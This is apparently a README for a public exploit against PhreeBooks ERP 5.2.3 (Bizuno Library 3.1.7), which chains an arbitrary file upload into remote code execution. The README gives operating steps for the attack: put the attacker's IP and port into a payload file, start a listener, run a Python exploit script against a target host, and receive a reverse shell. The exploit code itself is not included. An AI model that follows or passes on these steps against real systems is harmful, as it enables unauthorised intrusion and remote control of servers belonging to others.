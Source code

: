 ## Exploit Title: PhreeBooks ERP 5.2.3 (Bizuno Library 3.1.7) - Arbitrary File Upload & Remote Code Execution
## Version: 5.2.3
## Tested on: Windows Server 2016 64-bit

### Instructions

1. Modify windows.php, enter your own IP and Port
2. Ensure listener is listening at your Port
3. Run `python3 exploit -t <TARGET HOST> -p <PATH/TO/PAYLOAD.php>` 
4. Receive reverse shell
